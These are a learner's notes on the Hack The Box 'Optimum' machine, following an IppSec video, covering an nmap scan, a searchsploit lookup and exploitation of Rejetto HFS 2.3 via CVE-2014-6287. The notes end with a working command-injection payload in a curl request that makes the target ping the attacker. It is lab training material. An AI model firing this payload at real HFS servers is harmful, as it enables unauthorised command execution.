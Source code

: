 # Optimum 

This is not a proper writeup.

These are my notes while following [IppSec's video](https://www.youtube.com/watch?v=kWTnVBIpNsE).

```
sgs@ptbox:~$ nmap -Pn -sV -sC 10.10.10.8

Starting Nmap 7.60 ( https://nmap.org ) at 2020-03-17 21:17 CET
Nmap scan report for 10.10.10.8
Host is up (0.079s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.98 seconds
```

It's some kind of webserver, it's available at http://10.10.10.8

```
sgs@ptbox:~$ searchsploit HFS 2.3
---------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                              |  Path
                                                                            | (/opt/exploitdb/)
---------------------------------------------------------------------------- ----------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload              | exploits/multiple/remote/30850.tx
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)         | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)         | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution    | exploits/windows/webapps/34852.tx
---------------------------------------------------------------------------- ----------------------------------
Shellcodes: No Result
Papers: No Result
sgs@ptbox:~$ ^C
````

HFS provides its own [scripting language](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands).

The vulnerability we are exploiting is CVE-2014-6287 (Remote Command Execution (2)), which allow you to exec arbitrary commands if you pass a null byte at the beginning of a query parameter.

```
sgs@ptbox:~$ sudo tcpdump -ni tun0 icmp

sgs@ptbox:~$ curl "http://10.10.10.8/?search=%00{.exec|ping.exe+10.10.14.20.}"

```



